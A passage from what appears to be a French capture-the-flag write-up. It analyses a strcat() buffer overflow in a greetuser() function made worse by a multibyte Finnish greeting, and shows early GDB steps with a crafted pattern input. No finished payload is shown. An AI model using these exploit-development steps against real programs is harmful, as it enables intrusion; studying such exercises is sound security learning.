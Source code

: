    ```c
     // Appel de fonction vulnérable - sans vérification des limites
     strcat(greeting, greeting_continuation);
     puts(greeting);

     return;
   }
   ```

## Vulnérabilité

La vulnérabilité principale se trouve dans la fonction `greetuser()` et comporte plusieurs problèmes:

1. **Buffers de taille fixe trop petits**:

   ```c
   char greeting[4];
   char greeting_continuation[4];
   ```

2. **Concaténation de chaînes non sécurisée**:

   ```c
   strcat(greeting, greeting_continuation);
   ```

   La fonction `strcat()` ne vérifie pas les limites des buffers, ce qui conduit à un buffer overflow.

3. **Débordement lié à la langue**:
   Lorsqu'on utilise le paramètre de langue finnoise (`LANG=fi`), le message "Hyvää päivää" contient des caractères UTF-8 qui nécessitent plusieurs octets, augmentant encore le potentiel de débordement.

## Analyse de la Disposition Mémoire avec GDB

Pour comprendre la disposition de la mémoire et concevoir notre exploit, nous avons utilisé GDB pour analyser comment le programme alloue et utilise la mémoire:

### Étape 1: Investigation Initiale

D'abord, nous avons placé des points d'arrêt dans `greetuser()` pour analyser la mémoire avant et après l'opération vulnérable:

```bash
(gdb) b greetuser
Breakpoint 1 at 0x804848a
(gdb) b *greetuser+152  # Après l'appel à strcat
Breakpoint 2 at 0x804851c
```

### Étape 2: Test avec des Motifs d'Entrée

Nous avons envoyé un motif de caractères pour voir quelle partie de notre entrée écrase quelles zones mémoire:

```bash
(gdb) set env LANG=fi
(gdb) r "$(python -c 'print "A"*40')" "$(python -c 'print "B"*18 + "CCCC" + "D"*42')"
```
